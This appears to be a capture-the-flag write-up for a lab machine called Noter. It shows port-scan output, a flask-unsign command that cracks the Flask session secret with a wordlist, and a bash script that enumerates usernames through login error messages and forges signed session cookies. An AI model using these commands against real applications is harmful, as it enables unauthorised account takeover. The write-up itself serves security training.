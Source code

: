 # Noter

```shell
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack ttl 63
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```

At first I thought I had to do upnp spoofing but I quickly realized port 5000 it's just a web page. As I always think I tried to hack the main functionality in this case the notes you can create yet I couldn't. Then I looked at the session cookie and found a JWT (easy to identify since it starts with **ey**). However it is not exactly a JWT it is a flask JWT that can easily be cracked

```shell
flask-unsign --unsign --no-literal-eval --wordlist ~/wordlist/rockyou.txt --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZGFzb3IifQ.YvkQDA.ElTcToWybDPRe6tSdECarYQg5qw
[*] Session decodes to: {'logged_in': True, 'username': 'dasor'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
```

I tried to create some cookies with names like administrator or admin but there was no success. However I found a way to enumerate users via the error page in the login. Invalid credentials means user does not exist and Invalid login means invalid password, So I did a bash script (quite slow) to find a user

```shell
#!/bin/bash

if [ $# -ne 1 ]
then
        echo "Use: $0 wordlist"
        exit 1
fi

if [ ! -r $1 ]
then
        echo "error wordlist not found or not readable"
        exit 1
fi

while read line
do
        curl -s -X POST -d "username=$line&password=caca" http://10.10.11.160:5000/login | grep "Invalid login" &>/dev/null
        if [ $? -eq 0 ]
        then
                echo " [+] user found: $line"
                cookie=$(flask-unsign --sign --secret 'secret123' --cookie "{'logged_in': True, 'username': '$line'}")
                echo "  [+] this is the cookie: $cookie"
                exit 1
        fi
        echo "[+] testing user: $line"
done < $1
```
